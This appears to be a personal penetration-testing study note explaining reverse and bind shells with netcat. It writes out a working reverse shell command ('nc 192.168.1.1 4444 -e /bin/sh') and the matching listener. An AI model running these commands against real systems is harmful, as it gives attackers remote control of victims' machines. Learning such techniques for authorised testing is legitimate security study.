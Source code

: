 
Reverse Shell    This is the most common
	using a tool called `netcat`.  Reverse shell means we are making the victim computer connect to us.
	![[Pasted image 20240419135918.png]]
	`nc -lvp 4444` this will start netcat `nc` to listen verbose on port `-lvp` 4444
		Can also use -n to turn off DNS
	`nc 192.168.1.1 4444 -e /bin/sh` on the target instructs netcat `nc` to connect to 192.168.1.1 on port 4444 and establish `-e` a shell `/bin/sh` for linux (or `cmd.exe` on a Windows device)


Bind Shell
	Works like a reverse shell but backwards.  We open a port on the target machine and then connect to it from our machine.
	![[Pasted image 20240419140605.png]]
	Syntax options are the same, just running them pretty much backwards from a Reverse Shell.

Reverse shells will mostly be used for internal testing.  Bind shells can come in handy though.  The victim will always be running the `-e /bin/bash` or `-e cmd.exe` no matter which shell you use.